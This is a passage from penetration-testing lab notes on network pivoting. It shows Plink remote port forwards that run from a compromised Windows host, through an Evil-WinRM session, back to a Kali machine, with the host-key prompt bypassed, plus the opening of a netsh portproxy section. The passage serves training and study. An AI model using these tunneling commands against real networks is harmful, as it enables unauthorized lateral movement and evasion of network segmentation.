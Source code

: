 {% tab title="3. Confirm & Use" %}
Confirm that the setup is up and running and use it to RDP directly to `MULTISERVER03`.

```bash
# Confirm remote port forward
$ sudo netstat -ntlp | grep 9833
tcp    0  0 127.0.0.1:9833  0.0.0.0:*   LISTEN  944/sshd-session: x
# Use RDP from Kali
$ xfreerdp /u:rdp_admin /p:'P@ssw0rd!' /v:127.0.0.1:9833
```
{% endtab %}
{% endtabs %}

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FSBZbvIVUMaqEgAjBAtDr%252Fport_forward_plink_1.png%3Falt%3Dmedia%26token%3D94d1bac6-2ae7-4d60-b9d3-7d42bac24b4c&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=91c8a048&#x26;sv=2" alt=""><figcaption></figcaption></figure>

When we want to use `plink` within a non-interactive session, e.g. WinRM,  which prevents us from answering the `ssh` prompts, including trusting our ssh hostkey, we need pass the command's arguments are a list:

{% code overflow="wrap" %}
```powershell
*Evil-WinRM* PS C:\Users\apache.ERA\Documents> Start-Process .\plink.exe -ArgumentList '-R 33060:127.0.0.1:3306', 'x7331@192.168.45.157', '-pw', 'kali', '-batch', '-hostkey', '"ssh-ed25519 255 SHA256:12ofigkgaUScFuNMCS/+bKdRsfu0rvILCdF+P8OzsH4"' -NoNewWindow
```
{% endcode %}

We can also automate SSH client key acceptance in non-TTY shells on Windows using Plink with `cmd.exe /c echo y | plink.exe`, bypassing manual prompts.

{% code overflow="wrap" %}
```powershell
cmd.exe /c echo y | .\plink.exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 192.168.45.235
```
{% endcode %}

### Netsh

**Network Shell** (`netsh`) is a native Windows tool use to configure network settings, including port forwarding via `portproxy` within the `interface` context.

> _The `netsh interface portproxy` command requires admin rights, so UAC may block changes in some cases. In this example, we’re using an admin RDP session, so UAC isn’t an issue._

In our scenario:

* `MULTISERVER03` (`192.168.246.64`) has TCP ports `80` and `3389` open.
* `CONFLUENCE01` (`192.168.246.63`) isn't accessible on the WAN interface.
* `MULTISERVER03` allows all outbound traffic.

Our aim is to SSH directly from Kali to `PGDATABASE01` (`10.4.246.125`) by creating a port forward on `MULTISERVER03`.

<figure><img src="https://x7331.gitbook.io/~gitbook/image?url=https%3A%2F%2F3960676229-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FmjLkek16kB60c2WFd5lf%252Fuploads%252FSbW5WjPi2zyFrLdbKpM0%252Fport_forward_netsh.png%3Falt%3Dmedia%26token%3Df097857d-1ccc-4807-a01a-095608933697&#x26;width=768&#x26;dpr=4&#x26;quality=100&#x26;sign=afa482c8&#x26;sv=2" alt=""><figcaption></figcaption></figure>

{% tabs %}
{% tab title="1. RDP" %}
RDP directly into `MULTISERVER03` from Kali.

